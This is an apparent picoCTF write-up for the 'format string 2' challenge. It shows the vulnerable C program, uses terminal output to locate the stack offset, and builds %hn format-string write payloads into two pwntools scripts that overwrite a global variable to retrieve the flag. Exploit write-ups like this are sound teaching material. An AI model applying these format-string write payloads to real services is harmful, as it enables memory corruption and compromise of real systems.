 # format string 2

## Solving

```
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 59604
```

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We see our vulnerability here 

```c
 scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
```
Now over here it checks if the variable ``sus`` is ``= galf`` in little endian order. This was originally Flag. If it is it returns us the flag. Else it prints out what our current sus is set to.

Now over here we ``sus`` is declared as a global variable and in this is case is set to ``int sus = 0x21737573;``

```
Non-debugging symbols:
0x000000000040038c  __abi_tag
0x0000000000402000  _IO_stdin_used
0x0000000000402104  __GNU_EH_FRAME_HDR
0x00000000004021d8  __FRAME_END__
0x0000000000403e10  __frame_dummy_init_array_entry
0x0000000000403e18  __do_global_dtors_aux_fini_array_entry
0x0000000000403e20  _DYNAMIC
0x0000000000404000  _GLOBAL_OFFSET_TABLE_
0x0000000000404050  __data_start
0x0000000000404050  data_start
0x0000000000404058  __dso_handle
0x0000000000404060  sus
```

After using gdb to investigate the stack and looking where this sus variable was located we find out that it is present at the address location ``0x0000000000404060``

Now considering they have given us an input lets see where exactly this is stored on the stack using this script

```python
print("1"*8 + ",%llx" * 50)
```

we can also send this in one line using ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 11111111,7fffae4b3400,0,0,a,400,7fcb6a230860,7fcb6a268ab0,0,0,0,7fcb6a2692e0,1a0c23d,7fcb6a230d78,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c  252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,786c,7c5eaa4c508a2a00,0,1,7fffae4b3750
sus = 0x21737573
You can do better!
```
Now looking at this we realise our input is stored at the 14th part of the stack.

So from here there are some things we can do specially in this case.

However say for example trying something like this ->

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24323225,3131313131313131,0,7f38e1faa451,7f38e1f98140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```
Ends up moving it to the 19th position? Now even trying to see the 14th position we see that it shows `` 2c786c6c24343125`` and the item is at the position of 20 now????

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%14$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24343125,2c786c6c24313225,2c786c6c24323225,3131313131313131,7f2790666400,7f2790654140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```

The reason this is is because the addresses we are trying to view prior end up buffering it from the known offset of 14 to the value of 20. as such hence overflowing it of sorts.  This because our length of payload is 48 bits or 6 bytes hence moving us 6 bytes up from 14 to 20.

As we know the base is 14 we can then start creating a payload from this.

Now essentially we want the value of `` 0x67616c66`` at ``0x404060``. Now normally when doing format string attacks instead of using 4 bytes which is the byte value of the string we are trying to change it to we split it into smaller parts which is over here hence storing them correctly.

```
0x6761 at the location (0x404062) (bytes for 6761) 26465
0x6c66 at the location (0x404060) (bytes for 6c66) 27750
```

This is keeping in mind the endiannesss

As such we can then craft our payload: 

``"'%26465x%18$hn...'" + "%1282x%19$hn...." + "\x62\x40\x40\x00\x00\x00\x00\x00" + "\x60\x40\x40\x00\x00\x00\x00\x00"``

Now over here we have the string ``%26465x%19$hn...`` the reason we use this is becuase first we want to move 26465 once that is done we have the value ``%18$hn...`` the ... here are supposed to make the length of the payload uniform as we have seen previously even the length of accessing values on the stack effects it. The 18 value comes from our known offset which is 14 however both our exploit lengths seem to be of bits 16 which comes out to 32 essentially becoming 4 bytes hence we have the value of 18


The ``1282x%19$hn....`` helps setup the next part. This because we need to get to 27750 and this used 26465 already. hence we can do 27750 - 26465 for a value of ``1285 chars``. Now as we had use padding to clear up the space and we also had to write there lets go back 3 ``...`` taking us to 1282. Now as we have written a value on the 18th value offset we now just need to write it on the 19th offset hence matching it correctly. Over here we also padd it with an extra bit ``.`` as it requires  

We also have to pass what what the targeted address is which in this case is ``0x404062`` which we pass in little endian format same for the other address.

Hence we come up with this script to automate the solve ->

```python
from pwn import *

context.arch = 'amd64'

p = remote('rhea.picoctf.net',56121)
s = p.recvuntil('say?')

p.sendline('%26465x%18$hn...' + '%1282x%19$hn....' + '\x62\x40\x40\x00\x00\x00\x00\x00' + '\x60\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

So in all actuallity ->  printing all the characters of the length of the string from hex then finding the offset and putting the address at said offset.

## Flag

> picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}


Cool script without all the calculation bs 

```python
from pwn import *

context.arch = 'amd64'

p = remote('rhea.picoctf.net', 56121)

p.recvuntil("say?")


payload = fmtstr_payload(14, {0x404060: 0x67616c66})
p.sendline(payload)
p.interactive()
```
